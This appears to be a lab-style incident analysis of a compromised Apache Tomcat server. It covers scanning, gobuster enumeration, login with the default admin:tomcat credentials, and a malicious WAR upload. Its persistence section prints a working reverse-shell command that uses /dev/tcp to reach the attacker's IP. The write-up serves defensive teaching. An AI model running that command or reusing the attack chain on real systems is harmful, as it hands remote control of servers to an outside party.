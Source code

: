 # Apache Tomcat Web Server Compromise - Incident Analysis

## Overview

Our SOC team detected suspicious activity originating from an external IP address targeting an Apache Tomcat web server within the company's intranet. This investigation leverages the analysis of the captured pcap file, uncovering a series of malicious activities that indicate a successful compromise of the web server. Below is the detailed breakdown of the incident, including IP addresses, ports involved, and attacker methodologies.

## IP Address Analysis

| IP Address     | Description                                       |
| -------------- | ------------------------------------------------- |
| 14.0.0.120     | External IP; Threat Actor                         |
| 10.0.0.112     | SSH Server & Apache Tomcat/7.0.88                |
| 10.0.0.115     | CyberDefenders - Virtual Machine (Ubuntu - root) |
| 10.0.0.105     | SMB/File Share Server                             |

## Port Activity

The following ports were actively used during the attack:
- **8080** - Apache Tomcat Web Server
- **22** - SSH
- **445** - SMB File Sharing
- **80** - HTTP
- **443** - HTTPS

### Attack Timeline

1. **SYN Scan Detection**:
   - The attacker (14.0.0.120) was observed sending a large volume of SYN requests, indicating an active SYN scan against the network. The attacker successfully identified open ports: **8080**, **22**, and **8009** on the SSH server (10.0.0.112).

2. **Suspicious POST Request**:
   - At **18:22:14**, the attacker uploaded a file via a POST request to the Tomcat server (10.0.0.112). The file appears to be a **PK file**, likely compressed as a **ZIP** archive.

3. **Default Credentials Exploited**:
   - In **packet 20553**, a successful login attempt was captured using the credentials **admin:tomcat**, which were likely unchanged from the default setup.

## Attack Summary and Analysis

### 1. Identifying the Attacker
- **Source IP**: 14.0.0.120
- **Origin**: Guangzhou

### 2. Open Port Vulnerability
- **Port Access**: The attacker's scan revealed that **8080** is used for the Apache Tomcat web server's admin panel.

### 3. Enumeration Tool Identified
- **Tool Used**: `gobuster`
  - The attacker utilized this tool to enumerate directories and files on the web server.

### 4. Directory Uncovered
- **Discovered Path**: `/manager`
  - The attacker discovered the `/manager` directory, which led to access to the admin panel.

### 5. Brute-Force Attack
- **Credentials Used**: `admin:tomcat`
  - The attacker successfully brute-forced the login credentials, exploiting the default settings.

### 6. Malicious File Upload
- **File Name**: `JXQOZY.war`
  - The attacker uploaded a malicious `.war` file intending to establish a reverse shell on the compromised server.

### 7. Persistence Command
- **Scheduled Command**: `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`
  - This command was used to establish a reverse shell and maintain persistence on the compromised system.

## Recommendations

1. **Immediate Action**: Isolate the compromised web server (10.0.0.112) from the network to prevent further damage or data exfiltration.
2. **Credential Review**: Ensure all default credentials are updated across all servers and services, especially those accessible via the internet.
3. **Firewall Policies**: Restrict access to sensitive ports such as **8080** and **22** to trusted IPs only.
4. **File Integrity Monitoring**: Set up monitoring on critical directories such as `/manager` to detect unauthorized uploads or changes in real-time.
5. **Incident Response**: Conduct a comprehensive review of server logs and deploy endpoint detection and response (EDR) tools to identify any further compromise or lateral movement by the attacker.

---

This analysis highlights the importance of securing administrative interfaces and regularly auditing server configurations to prevent similar incidents in the future. Stay vigilant and ensure your systems are hardened against common attack vectors.
